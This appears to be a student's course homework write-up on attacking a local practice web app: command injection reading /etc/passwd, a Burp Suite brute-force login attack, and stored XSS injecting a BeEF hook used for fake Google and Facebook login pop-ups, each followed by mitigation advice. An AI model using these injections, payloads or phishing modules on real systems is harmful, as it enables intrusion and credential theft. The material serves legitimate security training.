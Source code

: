 # Web-Vulnerabilities-and-Hardening

Josh Schauert Unit 15 Homework Submission File ( Web Vulnerabilities & Hardening )

Web Application 1: Your Wish is My Command Injection

1.Start the Terminal in your Virtual Machine.

	Run the following command from your Terminal.
	cd ./Documents/web-vulns && docker-compose up
	Once the Docker Containers are up, Open Firefox Web Browser
	Navigate to the following webpage: http://192.168.13.25
	Log in with the following credentials:

    	User name: admin
    	Password: password
    	Select the Command Injection option or access the webpage directly at this page: http://192.168.13.25/vulnerabilities/exec/

As per the ping 8.8.8.8 && pwd there are five levels of sub-directories, see below:Image
Based on above, using the dot-dot-slash method ../ need to do it 5 times to access the payloads, that will display the contents of the following directories/files.

	Ping 8.8.8.8 && cat ../../../../../etc/passwd   

( See Below )
Image

Ping 8.8.8.8 && cat ../../../../../etc/hosts   

( See Below )

Image

Recommended Mitigation Strategies:

-Avoid command line calls where possible. Use of API’s wherever possible

-Set up Input Validation - Command Injection vulnerabilities occur when untrusted input is not sanitized correctly. A white list of possible inputs should be created for the system to accepts only the pre-approved inputs, and avoid the following characters: “;” “&” “|” “`”

-Run with Restricted Permissions - Reduce the number of users who have access to the database and secure the locations of all confidential files and the directories.

Web Application 2: A Brute Force to Be Reckoned With

	From the Terminal in Vagrant run the command sudo burpsuite to start the Burp Suite Community Edition

	Open Firefox browser on Vagrant and navigate to the webpage http://192.168.13.35/ba_insecure_login_1.php

	Make sure the FoxyProxy setting on the web browser is set to Burp.
Image

Select the Payloads tab, and enter the List of Administrators file provided above into the Payload Options [Simple list] for the set 1 and Add the passwords from the Breached list of Passwords file provided above into the Payload Options [Simple list] for the set 2.
Image

Results from the analysis that was completed from the Intruder show that there was one successful login username/password combination. It was user name of "tonystark" and the password "I am Iron Man". Below screenshots display the Successful login! You really are Iron Man :) in the Response tab.
Image
Image

Recommended Mitigation Strategies:

-Lock the account after a fixed number of failed attempts.
    
-Make the Usernames and Passwords more complex, and increase the frequency of changing the passwords.
    	
-Lock out the IP address, if there are multiple login attempts.
    	
-Brute force site scanners. Scan the logs to see if there was a brute force attempted recently.



Web Application 3: Where's the BeEF?

1. Set up BeEF

	From the Terminal in Vagrant run the command sudo beef to start the BeEF
	When prompted for a password, enter cybersecurity.
	This will kick off the BeEF application and return many details about the application to your terminal.
	To access the BeEF GUI, right-click the first URL UI_URL: http://127.0.0.1:3000/ui/panel and select Open Link to open in default browser, or copy the link and open the browser of your choice (Chrome, or Microsoft Edge). Paste it in the address bar and press enter.
	When the BeEF webpage opens, login with the following credentials: - Username: beef - Password: feeb

2. Prepare the Replicants Website

	From the Terminal in Vagrant navigate to ~/Documents/web-vulns directory.
	Run the command sudo docker-compose up
	Go to the browser and enter the following in the address bar: http://192.168.13.25/vulnerabilities/xss_s/
	Reset the database and the login with the following credentials: - Username: admin - Password: password

3. Start the BeEF hook, and write the payload

	From the Terminal copy the BeEF hook: http://127.0.0.1:3000/hook.js
	Write the Payload: <script src="http://127.0.0.1:3000/hook.js"></script>

4. Inject this payload

	When trying to inject the payload there was an issue found, in the message box field, there was a limit of maxlength="50" character in the source code. Therefore we could not inject the payload. ( See below screenshot )


Image

Solution: From the Browser right click the input box and select “inspect element” locate the <textarea name="mtxMessage" cols="50" rows="3" maxlength="50">. Right click and select “edit as html” and change the maxlength "75", or just remove this code limit.

( See below screenshots ) ( Note after changing to 75 after you enter the code to hook and push enter the site automatically resets the max length to “50” as shown in the second screenshot )

Image

Image


A few BeEF exploits

	First, we'll attempt a social engineering phishing exploit to create a fake Google login pop up. We can use this to capture user credentials.

	( Once below is visited we are hooked to the website )

Image

Below screenshot shows we are hooked in the beef control panel

Image

To access this exploit, select Google Phishing under Social Engineering.

Image

Fake Google Login Page shown below. User entered is “hackeruser” password was “hackerpass” 

Image

Below Screenshots show the credentials were captured by Beef.
Image



Task details:

	The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/
	The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js
	The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>


Social Engineering >> Petty Theft

Once hooked to the DVWA page:

Below 2 screenshots show fake facebook login popup setup and initiation 


Image

Image

Below 2 screenshots show the information entered and the capture in beef
Image

Image

Social Engineering >> Fake Notification Bar

Below 2 screenshots show setup and initiation of fake notification bar
Image

Image

Below image shows that the fake notification bar was executed and clicked by the user

Image

Host >> Get Geolocation (Third Party)

Below screenshot shows setup and capture of geolocation in beef
Image

Recommended Mitigation Strategies:

-Keep the system up to date. Restore the VM to a virgin state on a regular basis (once a week, or once a month). Also change passwords regularly, Its best to always assume that you have been compromised.
